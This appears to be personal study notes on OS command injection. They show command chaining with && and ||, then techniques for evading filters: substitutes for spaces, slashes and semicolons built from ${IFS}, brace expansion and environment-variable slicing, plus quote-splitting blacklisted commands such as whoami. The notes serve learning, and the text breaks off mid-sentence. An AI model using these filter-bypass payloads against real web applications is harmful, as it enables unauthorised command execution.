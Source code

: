 ![[Pasted image 20250415174021.png]]
![[Pasted image 20250415174756.png]]

**AND (&&) Operator** - `ping -c 1 127.0.0.1 && whoami` : This will execute both the commands.
**OR (||) Operator** - `ping -c 1 127.0.0.1 || whoami` : This runs second command only if the first commands fail to execute
![[Pasted image 20250416101227.png]]

**Check for Blacklisted Characters :**  A web application may have a list of blacklisted characters, and if the command contains them, it would deny the request. 

## Bypassing Blacklisted Characters
- Spaces - `127.0.0.1%0a whoami
- Use Tabs - `127.0.0.1%0a%09`
- Use IFS - `127.0.0.1%0a${IFS}`
- Using Brace Expansions - `127.0.0.1%0a{ls,-la}`
- `LINUX` If `/` is blacklisted then we can use something like - `${PATH:0:1}`, this prints the same output
-  `LINUX` If `;` is blacklisted then we can use something like - `${LS_COLORS:10:1}`
- `WINDOWS` If `/` is blacklisted then we can use something like - `echo %HOMEPATH:~6,-11%`

## Bypassing Blacklisted Commands
- If a command like `whoami` is blacklisted, then for `BASH` or `POWERSHELL` we can use - `w'h'o'am'i`
- If a command like `whoami` is blacklisted and it's confirmed that is ``